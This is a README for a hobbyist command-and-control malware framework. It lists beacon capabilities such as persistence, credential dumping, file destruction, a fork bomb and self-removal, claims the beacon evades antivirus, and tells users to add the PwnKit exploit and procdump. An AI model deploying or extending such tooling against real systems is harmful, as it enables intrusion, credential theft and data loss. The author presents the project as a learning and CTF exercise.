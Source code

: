 # cloudstrike
This is a custom c2 framework with beacons for both linux and windows

<pre>
  ______  __        ______    __    __   _______       _______.___________..______       __   __  ___  _______
 /      ||  |      /  __  \  |  |  |  | |       \     /       |           ||   _  \     |  | |  |/  / |   ____|
|  ,----'|  |     |  |  |  | |  |  |  | |  .--.  |   |   (----`---|  |----`|  |_)  |    |  | |  '  /  |  |__
|  |     |  |     |  |  |  | |  |  |  | |  |  |  |    \   \       |  |     |      /     |  | |    <   |   __|
|  `----.|  `----.|  `--'  | |  `--'  | |  '--'  |.----)   |      |  |     |  |\  \----.|  | |  .  \  |  |____
 \______||_______| \______/   \______/  |_______/ |_______/       |__|     | _| `._____||__| |__|\__\ |_______|

</pre>

I created this framework to learn a bit about malware developments and command and control servers. As this is (at the time of release) not detected by some antivirus software like Windows Defender, you can also see that it is not too hard to write malware that goes undetected even though I didn't even obfuscate too much and this is just a toy project. Obviously, the beacon will probably still be detected by an antivirus with good dynamic detection, so this malware is not too dangerous. BUT you can use this as a base for lateral movement in CTFs to manage your machines.

## Features
### C2

To install the requirements:
<pre>pip install -r requirements.txt</pre>

The C2 also has a fallback to the default http.server module instead of flask if you can't install flask and you can also disable it by setting `FLASK`=False in `cloudstrike.py` but this will make the beacon fail to download files from the webserver so you would need to change some lines in main.c. Feel free to advance the fallback so the beacon automatically chooses from where to download and contribute the changes!

You also need to configure the following constants in `cloudstrike.py`
`C2_ADDR` = "0.0.0.0"
`C2_PORT`= 1337
`C2_WEB_PORT`= 1337
`HOME` = "/home/user/cloudstrike/" #needs to end with a '/' !!!

Taffic to `C2_PORT` that contains the magic string in the initial request will be forwarded automatically to the web server!
So you can put the `C2_WEB_PORT` in `cloudtrike.py` behind a firewall and only have to open `C2_PORT` on the c2 server to the internet.

You can access the web server at `C2_ADDR:C2_WEB_PORT/{magic}/some_file`. You can get the current magic string from the cloudstrike command `magic`.
The flask web server will also respond with a status code of 404 to every request (even if the file is found) and returns a string of random length when no file is found to confuse fuzzers.
(This also means wget C2_ADDR:C2_WEB_PORT/{magic}/some_file won't work because wget reacts to the 404 status code. Instead use curl -O C2_ADDR:C2_WEB_PORT/{magic}/some_file)

#### Available Functions
- `use <id>` : if you have connected clients you can use this to drop into the shell
- `list/ps` : list current connected clients
- `delete/kill <id>` : kill connection to client
- `connect <ip> <port>` : connnect to bind shell
- `listen <port>` : add an additional C2 PORT to listen for clients
- `forward local_port:dest:dest_port` : forward local port to remote service
- `routes` : list of your port forwards
- `restart web` : restart the web server (intended to be used only when you want to start the webserver after the webserver didn't start initially)
- `read_weblog` : read flask web log
- `magic` : display current magic string
- `clear` : clear screen
- `broadcast <command>` : send command to all clients at the same time
- `exit`

### Beacon
The Beacon supports an encoded channel with xor (NO this is not secure but it can obfuscate the traffic) and a plain channel. You can configure this in `es2.h`.

#### Available Functions
- `implant`: execute persistence mechanism specific to the operating system
- `upload`: upload file (binary files currently only partially supported and only works in combination to cloudstrike)
- `download`: download file(binary files currently only partially supported and only works in combination to cloudstrike)
- `destroy`: destroys the machines files
- `panic`: removes itself quietly from the system(only for windows as it is easy for linux to do it manually)
- `pyinstall`: installs python on the target(windows only because for linux python is most of the time preinstalled)
- `passdump`: dumps creds (see the tip in the code to see how to use mimikatz to get the creds from the dump and this is really noisy and will propably be detected by an av)
- `crash`: crashes system with a fork bomb
- `swap` : swaps mouse buttons (currently only supported for windows)
- `update` : updates the beacon from the c2 web server (currently only supported for windows)
- `exit`
- `help`

## Building

On Linux, you can build the beacon with: `bash make.sh`

On Windows, it would be: `make.bat` (I used MinGW but I am sure you can also use other compilers if you reconfigure the command. If you port this over, it would be cool if you contribute these changes!)

After installing you can use patch.sh to change a previous `C2_HOST` to a new one without rebuilding the whole binary

For some features, you need to put the following files into the static folder:

- For PwnKit: [CVE-2021-4034.py](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py) and rename it to `PwnKite.py`.
- You can download Procdump from [here](https://learn.microsoft.com/de-de/sysinternals/downloads/procdump) and rename it to `procdump.exe`.
- Go ahead and download Nyancat for Linux from [here](https://github.com/klange/nyancat/tree/master) and name it `nyancat`.
- Just grab a windows python installer executable for windows from here: [here](https://www.python.org/downloads/release/python-385/) you can also use another version but then you need to change the name in `main.c` from `python-3.8.5.exe` to your executable filename

## Contribution

Feel free to contribute!

If you look at the top of the files, there are some of the features I would like to implement someday.

## Disclaimer

This software is only intended for learning purposes, and I do not take any responsibility for misuse.

This repository is for academic purposes, and the use of this software is your responsibility.

## Ascii Art from:

[https://patorjk.com/software/taag/](https://patorjk.com/software/taag/)
